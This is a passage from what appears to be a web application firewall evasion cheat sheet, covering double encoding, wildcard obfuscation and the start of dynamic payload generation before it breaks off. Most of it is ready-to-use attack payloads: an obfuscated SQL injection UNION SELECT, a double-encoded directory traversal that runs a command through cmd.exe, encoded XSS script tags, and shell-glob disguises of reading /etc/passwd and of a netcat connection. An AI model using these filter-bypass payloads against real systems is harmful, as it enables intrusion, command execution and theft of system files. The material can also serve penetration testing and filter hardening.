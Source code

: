 > index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3

### 7. Double encoding technique

Web Application Firewall filters tend to encode characters to protect the web application. Poorly developed filters (without recursive filters) can be skipped with double encoding.

**Basic request:**

> http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

**Obfuscate payload:**

> http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

**Basic request:**

```bash
<script>confirm()</script>
```

**Obfuscate payload:**

```bash
%253Cscript%253Econfirm()%253C%252Fscript%253E
```

### 8. Wildcard obfuscation technique

Various command line utilities use global patterns to work with multiple files. We can change them to execute system commands.

**Basic request:**

> /bin/cat /etc/passwd

**Obfuscate payload:**

> /???/??t /???/??ss??

**Characters used:**

> / ? t s

**Basic request:**

> /bin/nc 127.0.0.1 443

**Obfuscate payload:**

> /???/n? 2130706433 443

**Characters used:**

> / ? n [0-9]

### 9. Dynamic payload generation technique

Programming languages have different patterns and syntax for concatenation. This allows us to generate payloads that can bypass many filters and rules.

**Basic request:**
